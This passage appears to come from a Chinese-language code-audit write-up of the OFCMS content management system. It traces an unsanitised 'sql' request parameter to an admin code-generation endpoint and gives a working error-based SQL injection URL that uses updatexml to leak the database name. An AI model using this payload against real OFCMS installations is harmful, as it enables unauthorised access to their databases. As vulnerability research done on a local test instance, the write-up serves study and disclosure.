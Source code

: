 ```
public String getPara(String name) {
    return this.request.getParameter(name);
}
```

可以看到并没有对传入的sql做任何处理

一路跟到了这里的update方法，虽然这里fillStatement会去采用占位符填充的方式，但是我的sql语句并没有才用占位符

![image-20230418112109018](images/20.png)

我们直接来访问create方法

```
http://localhost:8081/ofcms_admin_war_exploded/admin/system/generate/create?sql=
```

![image-20230418112952414](images/21.png)

抛出了异常，只能用update方法，既然有报错回显那就试试报错注入

```
http://localhost:8081/ofcms_admin_war_exploded/admin/system/generate/create?sql=update of_cms_ad set ad_id=updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

![image-20230418135502551](images/22.png)
